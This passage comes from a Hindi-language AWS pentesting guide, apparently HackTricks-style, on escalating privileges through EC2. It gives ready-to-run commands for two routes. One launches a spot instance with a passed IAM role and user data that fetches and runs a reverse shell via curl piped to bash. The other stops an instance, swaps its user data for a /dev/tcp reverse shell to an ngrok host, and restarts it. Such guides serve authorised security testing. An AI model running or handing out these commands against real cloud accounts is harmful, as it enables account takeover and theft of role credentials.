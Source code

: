### `ec2:RequestSpotInstances`,`iam:PassRole`

एक हमलावर जिसके पास अनुमतियाँ **`ec2:RequestSpotInstances`और`iam:PassRole`** हैं, वह **एक स्पॉट उदाहरण** **अनुरोध** कर सकता है जिसमें **EC2 भूमिका संलग्न** है और **उपयोगकर्ता डेटा** में **रिव शेल** है।\
एक बार उदाहरण चलने के बाद, वह **IAM भूमिका** को **चुरा** सकता है।
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 request-spot-instances \
--instance-count 1 \
--launch-specification "{\"IamInstanceProfile\":{\"Name\":\"EC2-CloudWatch-Agent-Role\"}, \"InstanceType\": \"t2.micro\", \"UserData\":\"$REV\", \"ImageId\": \"ami-0c1bc246476a5572b\"}"
```
### `ec2:ModifyInstanceAttribute`

एक हमलावर के पास **`ec2:ModifyInstanceAttribute`** है, जिससे वह इंस्टेंस के गुणों को संशोधित कर सकता है। इनमें, वह **उपयोगकर्ता डेटा को बदल सकता है**, जिसका अर्थ है कि वह इंस्टेंस को **मनमाना डेटा चलाने** के लिए मजबूर कर सकता है। जिसका उपयोग **EC2 इंस्टेंस के लिए एक रिवर्स शेल प्राप्त करने** के लिए किया जा सकता है।

ध्यान दें कि गुण केवल तब **संशोधित** किए जा सकते हैं जब इंस्टेंस **रुका हुआ** हो, इसलिए **अनुमतियाँ** **`ec2:StopInstances`** और **`ec2:StartInstances`**।
```bash
TEXT='Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
bash -i >& /dev/tcp/2.tcp.ngrok.io/14510 0>&1
--//'
TEXT_PATH="/tmp/text.b64.txt"

printf $TEXT | base64 > "$TEXT_PATH"

aws ec2 stop-instances --instance-ids $INSTANCE_ID

aws ec2 modify-instance-attribute \
--instance-id="$INSTANCE_ID" \
--attribute userData \
--value file://$TEXT_PATH

aws ec2 start-instances --instance-ids $INSTANCE_ID
```
**संभावित प्रभाव:** किसी भी EC2 IAM भूमिका पर सीधे प्रिवेस्क।
